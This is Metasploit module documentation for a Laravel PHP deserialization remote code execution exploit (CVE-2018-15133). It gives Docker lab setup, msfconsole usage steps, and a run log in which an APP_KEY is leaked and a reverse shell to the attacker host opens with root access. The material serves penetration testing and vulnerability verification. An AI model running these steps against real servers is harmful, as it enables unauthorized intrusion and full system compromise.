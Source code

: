 ## Vulnerable Application

[Laravel](https://laravel.com/) is an actively-maintained PHP Framework web development suite.

This module exploits an unauthenticated vulnerability that allows for PHP object deserialization and command execution.
The vulnerability was discovered by [Ståle Pettersen](https://github.com/kozmic/laravel-poc-CVE-2018-15133)

The module may also uses CVE-2017-16894 to check for a leaked key. Another leaked key method is available which may not be known and perhaps 0day?

### Setting up Laravel on Debian

- `git clone https://github.com/kozmic/laravel-poc-CVE-2018-15133`
- Edit Dockerfile and change `sed -i -e 's/5.7.\*/5.6.29/g'` to `sed -i -e 's/5.8.\*/5.6.29/g'` (needs to be 5.8 as 5.7 is removed from mirror)
- `docker build -t laravel-poc-cve-2018-15133 .`
- `docker run -d -p 8000:8000 laravel-poc-cve-2018-15133`

## Verification Steps

- `./msfconsole`
- `use exploits/unix/http/laravel_token_unserialize_exec`
- `set RHOST <rhost>`
- `set RPORT <rport>`
- `set APP_KEY <base64_string>`
- `check`
- `exploit`

## Scenarios

```
msf exploit(unix/http/laravel_token_unserialize_exec) > check

[*] 172.22.222.112:8000 - APP_KEY not set. Will try to find it...
[*] 172.22.222.112:8000 - Checking for CVE-2017-16894 .env information leak
[+] 172.22.222.112:8000 - APP_KEY Found via Laravel Framework error information leak: uV1jO3mpnhtdvcsSi1EIUVtSMBXeAvWtL3lmNwx7n9Q=
[+] 172.22.222.112:8000 - The target is vulnerable.
msf exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.112:8000 - APP_KEY not set. Will try to find it...
[*] 172.22.222.112:8000 - Checking for CVE-2017-16894 .env information leak
[+] 172.22.222.112:8000 - APP_KEY Found via Laravel Framework error information leak: uV1jO3mpnhtdvcsSi1EIUVtSMBXeAvWtL3lmNwx7n9Q=
[*] Command shell session 36 opened (172.22.222.136:4444 -> 172.22.222.112:49506) at 2019-07-12 08:16:05 -0500

uname -a
Linux 03cc598c00af 4.18.0-25-generic #26~18.04.1-Ubuntu SMP Thu Jun 27 07:28:31 UTC 2019 x86_64 GNU/Linux
whoami
root
```
